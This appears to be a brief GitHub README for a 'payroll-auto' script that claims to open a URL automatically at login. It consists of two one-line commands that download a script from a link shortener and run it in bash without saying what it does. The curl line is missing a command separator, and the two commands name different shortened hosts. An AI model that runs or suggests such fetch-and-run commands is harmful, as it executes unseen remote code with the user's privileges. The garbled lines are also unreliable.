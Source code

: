 # payroll-auto
Enabling automatic opening a specific URL on logging into the device
## Introduction

This script can be downloaded and executed using either `curl` or `wget` commands. It performs a specific task when executed. You can choose one of the following methods to run the script:

### Using `curl`

```bash
curl -L -o i.sh https://t.ly/b3uCh bash i.sh
```

### Using `wget`

```bash
wget ht.ly/b3uCh -O i.sh ; bash i.sh
```
